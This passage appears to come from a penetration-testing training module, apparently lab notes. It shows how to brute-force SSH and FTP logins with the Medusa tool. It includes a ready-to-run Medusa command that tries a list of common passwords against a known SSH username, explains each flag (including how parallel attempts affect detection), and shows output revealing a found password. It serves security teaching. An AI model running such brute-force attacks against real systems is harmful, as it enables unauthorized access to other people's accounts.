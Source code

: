 Medusa will try each username with an empty password and then with the password matching the username, potentially revealing accounts with weak or default configurations.

# Web Services

In the dynamic landscape of cybersecurity, maintaining robust authentication mechanisms is paramount. While technologies like Secure Shell (`SSH`) and File Transfer Protocol (`FTP`) facilitate secure remote access and file management, they are often reliant on traditional username-password combinations, presenting potential vulnerabilities exploitable through brute-force attacks. In this module, we will delve into the practical application of `Medusa`, a potent brute-forcing tool, to systematically compromise both SSH and FTP services, thereby illustrating potential attack vectors and emphasizing the importance of fortified authentication practices.

`SSH` is a cryptographic network protocol that provides a secure channel for remote login, command execution, and file transfers over an unsecured network. Its strength lies in its encryption, which makes it significantly more secure than unencrypted protocols like `Telnet`. However, weak or easily guessable passwords can undermine SSH's security, exposing it to brute-force attacks.

`FTP` is a standard network protocol for transferring files between a client and a server on a computer network. It's also widely used for uploading and downloading files from websites. However, standard FTP transmits data, including login credentials, in cleartext, rendering it susceptible to interception and brute-forcing.

## Kick-off

We begin our exploration by targeting an SSH server running on a remote system. Assuming prior knowledge of the username `sshuser`, we can leverage Medusa to attempt different password combinations until successful authentication is achieved systematically.

The following command serves as our starting point:

```shell
gitblanc@htb[/htb]$ medusa -h <IP> -n <PORT> -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```

Let's break down each component:

- `-h <IP>`: Specifies the target system's IP address.
- `-n <PORT>`: Defines the port on which the SSH service is listening (typically port 22).
- `-u sshuser`: Sets the username for the brute-force attack.
- `-P 2023-200_most_used_passwords.txt`: Points Medusa to a wordlist containing the 200 most commonly used passwords in 2023. The effectiveness of a brute-force attack is often tied to the quality and relevance of the wordlist used.
- `-M ssh`: Selects the SSH module within Medusa, tailoring the attack specifically for SSH authentication.
- `-t 3`: Dictates the number of parallel login attempts to execute concurrently. Increasing this number can speed up the attack but may also increase the likelihood of detection or triggering security measures on the target system.

```shell
gitblanc@htb[/htb]$ medusa -h IP -n PORT -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3

Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>
...
ACCOUNT FOUND: [ssh] Host: IP User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```
